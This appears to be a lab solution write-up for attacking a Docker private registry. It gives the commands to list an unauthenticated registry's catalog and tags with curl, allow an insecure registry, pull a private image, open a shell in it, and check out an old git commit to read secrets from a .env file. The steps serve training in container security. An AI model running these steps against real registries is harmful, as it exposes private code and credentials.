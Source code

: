 # Attacking Private Registry - Solution

* Understanding the API structure of the docker private registry to list of images

```bash
curl 165.22.221.65:5000/v2/_catalog
```

* Get the list of tags for the images

```bash
curl 165.22.221.65:5000/v2/privatecode/tags/list
```

![List images with tags in private registry](images/private-registry-list.png)


* Add the insecure-registry flag to download docker image at `vi /lib/systemd/system/docker.service`

```bash
ExecStart=/usr/bin/dockerd -H fd:// --insecure-registry 165.22.221.65:5000
```

* Then restart the service

```bash
sudo systemctl daemon-reload
sudo service docker restart
```

* Download the image from private registry

```bash
docker pull 165.22.221.65:5000/privatecode:golang-developer-team
```

![pulling docker image](images/pull-docker.png)

* Enter into the container using the below command. Look for interesting file and folders

```bash
docker run --rm -it 165.22.221.65:5000/privatecode:golang-developer-team sh

cd /app
ls -la
```

![entering into container for analysis](images/enter-into-container.png)

* Now look at the commit logs for git

```bash
git log
```

![git commit logs](images/commit-log.png)

* Then revert to the commit where environment variables are there. Then look for files and secrets

```bash
git checkout f17a07721ab9acec96aef0b1794ee466e516e37a

ls -la

cat .env
```

![revert and look for secrets](images/revert-and-secrets.png)